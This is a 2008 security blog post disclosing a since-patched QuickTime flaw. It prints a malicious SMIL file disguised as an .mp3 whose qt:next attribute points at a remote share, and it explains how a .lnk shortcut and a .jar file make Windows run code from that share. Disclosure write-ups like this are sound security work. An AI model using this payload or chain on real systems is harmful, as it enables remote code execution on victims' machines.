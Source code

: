 ```yaml
---
title: Details of the QuickTime Vulnerability
author: pdp
date: Tue, 09 Sep 2008 14:24:38 GMT
template: post.jade
---
```


In this post I intend to give a brief overview of the QuickTime vulnerability which I partially-disclosed over [here](/blog/quicktime-0day-for-vista-and-xp/). I should have made these details public long time ago but better late than never. The vulnerability has been fixed for several months now and I believe it is safe to talk about it in the public.

Let's start with an example. The following is the source code of a malicious QuickTime SMIL file:

```xml
**SMILtext** <smil
xmlns:qt="http://www.apple.com/quicktime/resourc
es/smilextensions" qt:autoplay="true"
qt:next="**file://172.16.3.124/evil/evil.lnk**">
<body>
<seq repeatCount="indefinite">
<img src="test.jpg" dur="1s"/>
<img src="test.jpg" dur="1s"/>
</seq>
</body>
</smil>
```

First of all, we start with the SMIL header (`SMILtext`). This is necessary in order to masquerade the file as a different file type, i.e. if we paste the above text into a file with extension `.mp3`, it will still play in QuickTime. We can use practically any other file extension which defaults to the QuickTime player.

After that we follow with a very standard SMIL document. The most interesting information in order to make the exploit works is contained inside the `qt:next` attribute of the `smil` root element. This attribute instructs QuickTime to play another media file after we are done with the current one. The attribute expects a URL which can start with the `file://` protocol handler. This is understandable since we might want to play local files as well as remote ones, i.e. `http://`.

The URL is passed to the `FileProtocolHandler` from `url.dll`. The function understands that we are asking for a local resource. However, pay attention on the format of the URL we are passing. Let's take a closer look: `file://172.16.3.124/evil/evil.lnk`

Most of you will recognize that this is a URL which points to a NETBIOS share located on `172.16.3.124`.

Perhaps you are thinking that this is the problem. Well yes, but we are not there just yet. Initially, when I was playing with this bug, I was trying to launch a URL like this one: `file://172.16.3.124/evil/evil.exe`. The URL points to an executable. Unfortunately, the attack was failing because usually XP SP1 and up, I believe (excuse my ignorance), will warn you that you are trying to execute an application from an untrusted share. Typically, you will see a warning box but because `FileProtocolHandler` suppresses that, the function silently fails. I've tried with `.bat`, `.cmd`, `.vbs`, `.js`, `.application` and other known executable file formats but none of them seemed to work. This is due to the fact that the operating system knows that these files are executables and could harm your system, therefore it prevents their execution.

So I needed to find a file format which is executable but Windows does not know about it just yet. It seems that `.jar` fits perfectly my requirements. `.jar` is the file extension of the JAR archive, a ZIP archive with a manifest file which instructs the Java interpreter what class should be executed as the main one. `.jar` files are executable as long as you have Java on your system.

So we are done! Right? Not quite. If you try to send `file://172.16.3.124/evil/evil.jar` to `FileProtocolHandler` you will notice that `java.exe` fails with an error messages informing you that there is no such class. What happens is that Java does not understand what `file://172.16.3.124/evil/evil.jar` actually is. This is due to the fact that the URL notation we are using is non-standard, i.e. it is made up by Microsoft's engineers to seamlessly incorporate NETBIOS shares into the operating system.

So what do we do? It took me some time to figure this out. My approach is very simple. First of all we create a simple `.lnk` (link/shortcut) file in the same directory where the malicious `.jar` file is located. Then we use the shortcut to rewrite the URL from `file://172.16.3.124/evil/evil.jar` to `\\172.16.3.124\evil\evil.jar`, which is the correct NETBIOS notation. The Java interpreter is very much aware of this syntax and it will happily load the file and attack the victim's system.

> In summary, I had to go from QuickTime to Windows Internals to URL Manipulation to Java. However, the attack is very simple to implement and understand, yet very effective. I must say that you can definitely win a laptop on the annual POWN2OWN contest by using as simple trick as the one presented here. Security vulnerabilities do not have to be complicated!

_I am planning to talk about the impact of this attack in my next post._
